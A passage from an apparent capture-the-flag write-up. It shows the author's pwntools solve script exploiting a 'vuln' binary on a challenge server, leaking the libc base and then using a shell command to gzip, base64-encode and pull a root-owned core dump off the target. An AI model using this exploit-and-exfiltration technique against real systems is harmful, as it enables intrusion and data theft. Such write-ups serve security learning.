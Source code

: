    home
    importChallenge.log
    lib
    lib32
    lib64
    libx32
    magic.sh
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    vuln
    

I’ll update my script to collect it:

    
    
    r.sendline(payload2)
    r.recvuntil(b"can do...\n")
    r.sendline(b'cat core.8 | gzip | base64 -w0; echo')
    compressed_encoded_dump = r.recvline().decode().strip()
    
    dump = gzip.decompress(base64.b64decode(compressed_encoded_dump))
    with open('dump', 'wb') as f:
        f.write(dump)
    success("Saved coredump as dump")
    
    r.interactive()
    

Now I’ll get a fresh instance, and run again:

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [*] Closed connection to 152.96.15.5 port 1337
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [+] Leaked libc base:        00007f2141e13000
    [+] Saved coredump as dump
    [*] Switching to interactive mode
    $ 
    

It saved the dump on my system:

    
    
    oxdf@hacky$ file dump 
    dump: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from './vuln', real uid: 0, effective uid: 0, real gid: 0, effective gid: 0, execfn: './vuln', platform: 'x86_64'
    